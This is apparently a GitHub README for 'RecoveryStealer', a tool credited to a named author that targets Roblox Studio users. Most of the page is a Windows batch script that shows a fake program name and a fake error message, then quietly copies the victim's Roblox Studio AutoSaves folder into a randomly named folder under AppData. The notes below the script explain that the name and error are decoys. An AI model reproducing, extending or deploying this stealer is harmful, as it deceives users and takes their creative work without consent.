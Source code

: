# RecoveryStealer
Roblox Studio Files Recovery Stealer.
Author: BonnieRBLX (.bxnnie)
## Requirements 
Windows 10 or higher 
### Source
```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.
> 
> errorstr: variable which is displays error string.
> 
> rn: random number.
> 
> user: User's name.
> 
